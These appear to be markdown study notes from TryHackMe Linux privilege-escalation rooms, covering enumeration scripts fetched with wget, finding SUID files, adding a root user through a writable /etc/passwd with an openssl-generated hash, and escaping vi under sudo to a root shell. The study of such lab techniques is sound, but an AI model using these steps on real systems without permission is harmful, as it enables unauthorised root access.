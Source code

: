 # Linux Privilige Escalation

## Common Linux PrivEsc
> https://tryhackme.com/room/commonlinuxprivesc

What does "privilege escalation" mean?  

At it's core, Privilege Escalation usually involves going from a lower permission to a higher permission. More technically, it's the exploitation of a vulnerability, design flaw or configuration oversight in an operating system or application to gain unauthorized access to resources that are usually restricted from the users.

![privesc](./media/16-common-privesc.png)

There are two main privilege escalation variants:

- Horizontal privilege escalation: This is where you expand your reach over the compromised system by taking over a different user who is on the same privilege level as you
- Vertical privilege escalation (privilege elevation): This is where you attempt to gain higher privileges or access, with an existing account that you have already compromised

### Enumeration 
LinEnum is a simple bash script that performs common commands related to privilege escalation, saving time and allowing more effort to be put toward getting root

https://github.com/rebootuser/LinEnum/blob/master/LinEnum.sh
```bash 
wget https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh
```

### Abusing SUID/GUID Files

We already know that there is SUID capable files on the system, thanks to our LinEnum scan. However, if we want to do this manually we can use the command: `find / -perm -u=s -type f 2>/dev/null` to search the file system for SUID/GUID files. Let's break down this command.

```bash
$ find / -perm -u=s -type f 2>/dev/null

find - Initiates the "find" command
/ - Searches the whole file system
-perm - searches for files with specific permissions
-u=s - Any of the permission bits mode are set for the file. Symbolic modes are accepted in this form
-type f - Only search for files
2>/dev/null - Suppresses errors

```

### Exploiting Writable /etc/passwd

Understanding /etc/passwd

The /etc/passwd file stores essential information, which  is required during login. In other words, it stores user account information. The /etc/passwd is a plain text file. It contains a list of the system’s accounts, giving for each account some useful information like user ID, group ID, home directory, shell, and more.

The /etc/passwd file should have general read permission as many command utilities use it to map user IDs to user names. However, write access to the /etc/passwd must only limit for the superuser/root account. When it doesn't, or a user has erroneously been added to a write-allowed group. We have a vulnerability that can allow the creation of a root user that we can access.

The /etc/passwd file contains one entry per line for each user (user account) of the system. All fields are separated by a colon : symbol. Total of seven fields as follows. Generally, /etc/passwd file entry looks as follows:

    test:x:0:0:root:/root:/bin/bash

[as divided by colon (:)]

- Username: It is used when user logs in. It should be between 1 and 32 characters in length.
- Password: An x character indicates that encrypted password is stored in /etc/shadow file. Please note that you need to use the passwd command to compute the hash of a password typed at the CLI or to store/update the hash of the password in /etc/shadow file, in this case, the password hash is stored as an "x".
- User ID (UID): Each user must be assigned a user ID (UID). UID 0 (zero) is reserved for root and UIDs 1-99 are reserved for other predefined accounts. Further UID 100-999 are reserved by system for administrative and system accounts/groups.
- Group ID (GID): The primary group ID (stored in /etc/group file)
- User ID Info: The comment field. It allow you to add extra information about the users such as user’s full name, phone number etc. This field use by finger command.
- Home directory: The absolute path to the directory the user will be in when they log in. If this directory does not exists then users directory becomes /
- Command/shell: The absolute path of a command or shell (/bin/bash). Typically, this is a shell. Please note that it does not have to be a shell.

**How to exploit a writable /etc/passwd**

It's simple really, if we have a writable /etc/passwd file, we can write a new line entry according to the above formula and create a new user! We add the password hash of our choice, and set the UID, GID and shell to root. Allowing us to log in as our own root user!

`openssl passwd -1 -salt [salt] [password]`
`openssl passwd -1 -salt hacker tryhackme_password`

```
user7@polobox:/home/user3$ openssl passwd -1 -salt hacker tryhackme_password
$1$hacker$USbXjKgMZxKTGtRhS57M31
user7@polobox:/home/user3$ openssl passwd -1 -salt new 123
$1$new$p7ptkEKU1HnaHpRtzNizS1
```

to create new user
```
# template
username:passwordhash:0:0:root:/root:/bin/bash
# our test 
thm:$1$new$p7ptkEKU1HnaHpRtzNizS1:0:0:root:/bin/bash

# su thm :with the password use added
```

### Escaping Vi Editor

use `sudo -l`
```
user8@polobox:/home/user3$ sudo -l
Matching Defaults entries for user8 on polobox:
env_reset, mail_badpass,
secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User user8 may run the following commands on polobox:
(root) NOPASSWD: /usr/bin/vi
```

search in : https://gtfobins.github.io/

to elevate
```
sudo vi
# once inside type
:!sh
# this will pop you a shell

# id 
uid=0(root)
```



## Linux PrivEsc
> https://tryhackme.com/room/linuxprivesc

wget https://raw.githubusercontent.com/diego-treitos/linux-smart-enumeration/master/lse.sh; chmod +x ./lse.sh
